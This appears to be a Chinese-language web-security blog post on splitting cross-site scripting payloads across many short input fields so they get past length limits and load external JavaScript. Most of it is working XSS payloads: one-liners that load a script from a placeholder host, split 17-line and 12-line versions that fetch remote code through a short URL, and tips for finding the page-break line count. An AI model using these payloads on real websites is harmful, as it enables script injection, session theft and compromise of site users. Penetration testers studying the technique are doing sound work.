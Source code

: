 ```yaml
---
title: XSS 最短拆分
categories:
  - Web安全
tags:
  - xss
abbrlink: aa9bb52b
date: 2019-03-11 21:51:42
---
```

&#8195;&#8195;XSS 中拆分法是绕过长度限制最常用的一种方法，那最短多少行能实现？实际环境中数据太多经常会有翻页的功能，比如邮件列表，发帖回帖，如果输入的可控长度小于 15 字符，超过五行就强行闭合标签并翻页的话，就算存在 XSS 基本上也无法引用外部 JS ，这也是研究最短行数实现外部 JS 引用的意义。
<!-- more -->

&#8195;&#8195;引用外部 JS 常用 payload 如下：
```
<input name="" value="" onmouseover="s=document.createElement('script');s.src='//xxxx.com/xxx/xxx.js';document.body.appendChild(s)">

<script>var x="with(document)body.appendChild(createElement('script')).src='//xxxxxxx.com/xxxx/xxxx.js'";eval(x);</script>
```
&#8195;&#8195;拆分的行数主要受可控字符的长度限制，**如果我们可控输入是 15 字符，实际有效的可控字符其实只有 5 个** ，如 `*/x+="xxxx";/*` ，固定字符就占了 10 个，这种情况想要拆分如上第二个 payload 需要差不多 27 行，如果 15 行就会翻页呢？这就需要尽可能的缩短 payload ，可以用 **短网址** 来实现。
&#8195;&#8195;短网址生成的方式很多，百度、新浪等都提供这种服务，但我比较了下生成最短的是 [T.IM 短网址/短链接生成器](http://t.im/)，路径部分只有 4 位，形如 `http://t.im/abcd`，现在上面第二个 payload 就可以压缩到 17 行，如下：
```
<script>var x/*
*/="with(do";/*
*/x+="cumen";/*
*/x+="t)bod";/*
*/x+="y.app";/*
*/x+="endCh";/*
*/x+="ild(c";/*
*/x+="reate";/*
*/x+="Eleme";/*
*/x+="nt('s";/*
*/x+="cript";/*
*/x+="')).s";/*
*/x+="rc='/";/*
*/x+="/t.im";/*
*/x+="/abcd";/*
*/x+="'";eval/*
*/(x);</script>
```
&#8195;&#8195;还有一种更短的方式，payload 如下：
```
<script src='//t.im/abcd'></script>
```
&#8195;&#8195;使用短地址后可以压缩到 12 行，如下：
```
<script>var a/*
*/,b,c,d,e,f;/*
*/a="<scrip";/*
*/b="t src=";/*
*/c="//t.im";/*
*/d="/ddux";/*
*/e="></scr";/*
*/f="ipt>";/*
*/document./*
*/write(a+b/*
*/+c+d+e+f)/*
*/;</script>
```
&#8195;&#8195;这种方式有个缺陷就是 `document` 不能再拆分，算上注释符理论上可控输入不能小于 12 个字符。小于 12 字符的我倒没见过，但是万一诸如点在 `X-Forwarded-For` 呢？然后开发为了方便直接写死了长度 16 位 。
&#8195;&#8195;如何判断多少行翻页呢？F12 查看元素并不准确，火狐倒还比较准确，chrome 目前是不准确的，因为数据太多时候 chrome 会省略掉一部分元素，虽然看不见但却存在。可以查看网页源代码，或者控制台用 `document.scripts[15].innerHTML` 打印出来。


